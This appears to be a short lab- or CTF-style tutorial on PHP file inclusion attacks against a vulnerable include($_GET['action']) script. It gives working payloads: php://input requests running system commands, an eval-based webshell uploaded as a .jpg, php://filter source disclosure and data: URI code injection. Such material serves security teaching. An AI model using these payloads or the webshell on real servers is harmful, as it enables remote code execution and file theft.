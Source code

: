 ## Summary of some common methods of file include attack.

File inclusion attacks are presented in server-side code in the form of:

```php+HTML
/*demo.php*/
<?php
    include($_GET['action']);
?>

```

Here are a few ways to use it.

### 1.Exploition of  php://input protocol

You can use the PHP pseudo-protocol php://input, often using the POST argument to take exploit it.

###### The GET parameter：

```http
/?action=php://input
```

###### The Post parameter

```php+HTML
<?php system("dir"); ?>
```

###### or

```php+HTML
<?php echo file_get_contents("../../flag.txt");?>
```

###### The full utilization payload is as follows

```http
POST /labs/IncludeAttack/demo.php/?action=php://input HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

<?php echo file_get_contents("../../flag.txt");?>
```

Where, statements

```php+HTML
file_get_contents('php://input');
```

The argument string itself used to echo any POST.

#### 2.Cooperate with upload attack

Among the file upload vulnerabilities, we have the Trojan virus:

```php
/*virus.php*/
<?php
    eval($_POST['pwd']);
?>
```

Change its suffix to .jpg post-upload, now in the target server we have a executable virus.

We can construct payload;

###### The GET&POST parameter

```http
/?action=virus.jpg
```

```php
pwd=system("dir");
// or pwd=system("ls -la");
// or pwd= echo file_get_contents("../../flag.txt");
```

#### 3.Explotion of php://filter

###### The GET parameter

```http
php://filter/read=convert.base64-encode/resource=../../flag.txt
```

 The echo is the base64 encryption form of the document.

#### 4.Any executable codes injection

We inject the byte stream of the PHP code we want to execute directly into the GET parameter, replacing the punctuation with %ord(byte).

###### The GET parameter

```http
// data: text/plain,<?php system("dir");?>
/?action=data%3a+text/plain,<%3fphp+system+%28"dir"%29%3b+%3f>
```

